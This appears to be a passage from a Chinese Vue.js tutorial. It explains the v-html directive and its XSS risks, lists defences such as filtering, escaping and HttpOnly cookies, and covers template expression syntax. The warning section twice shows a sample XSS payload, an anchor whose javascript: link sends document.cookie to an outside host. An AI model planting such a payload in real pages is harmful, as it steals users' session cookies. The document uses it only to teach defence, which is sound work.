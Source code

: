 **HTML**

```html
<div id="box">
	<div v-html="txt"></div>
</div>
```

**JS**

```js
new Vue({
    el:'#box',
    data:{
        txt:"<a href=javascript:location.href='http://www.baidu.com?cookie='+document.cookie>click</a>" //会跳转其他页面并带着cookie
    }
})
```



##### 注意

v-html需要注意防止XSS,CSRF，方法如下：

1. 前端过滤
2. 后台转义(< >  `&lt`; `&gt`;)
3. 给cookie 加上属性 http

##### 实例

以下就是一个XSS攻击，会带着A网站下的COOKIE到B网站上去，COOKIE存的信息会被B网站得知

```html
<a href=javascript:location.href='http://www.baidu.com?cookie='+document.cookie>click点击</a>
```



#### 表达式

##### 语法

```js
{{ number + 1 }}

{{ ok ? 'YES' : 'NO' }}

{{ message.split('').reverse().join('') }}

<div v-bind:id="'list-' + id"></div>
```

这些表达式会在所属 Vue 实例的数据作用域下作为 JavaScript 被解析。有个限制就是，每个绑定都只能包含**单个表达式**，所以下面的例子都**不会**生效。

```html
<!-- 这是语句，不是表达式 -->
{{ var a = 1 }}

<!-- 流控制也不会生效，请使用三元表达式 -->
{{ if (ok) { return message } }}
```
